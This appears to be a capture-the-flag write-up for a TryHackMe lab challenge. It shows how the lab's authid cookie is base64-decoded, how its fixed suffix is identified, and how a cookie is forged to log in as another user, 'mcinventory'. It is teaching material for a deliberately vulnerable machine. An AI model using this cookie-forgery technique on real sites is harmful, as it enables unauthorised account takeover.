 ```yaml
---
layout: post
title: TryHackMe - 25 Days of Christmas
---
```


## Inventory Management
Deploy the machine and access the website at `http://[your-ip-here]:3000`.


### What is the name of the cookie used for authentication?

Go to `http://[your-ip-here]:3000/register` to make an account, then login.

```
GET /home HTTP/1.1
Host: 10.10.120.159:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.120.159:3000/register
DNT: 1
Connection: close
Cookie: authid=YXY0ZXI5bGwxIXNz
Upgrade-Insecure-Requests: 1
```

Cookie is named authid.

### If you decode the cookie, what is the value of the fixed part of the cookie?

```
$ echo YXY0ZXI5bGwxIXNz | base64 -d
av4er9ll1!ss
```
My username is 'a', so the fixed part of the cookie might be 'v4er9ll1!ss'. I made another account to verify this was true.

### After accessing his account, what did the user mcinventory request?

```
$ echo -ne 'mcinventoryv4er9ll1!ss' | base64
bWNpbnZlbnRvcnl2NGVyOWxsMSFzcw==
[convert to URL encoding]
bWNpbnZlbnRvcnl2NGVyOWxsMSFzcw%3D%3D
```
Set authid cookie, and you're logged in. In the entries table, mcinventory requested a firewall.

## Arctic Forum
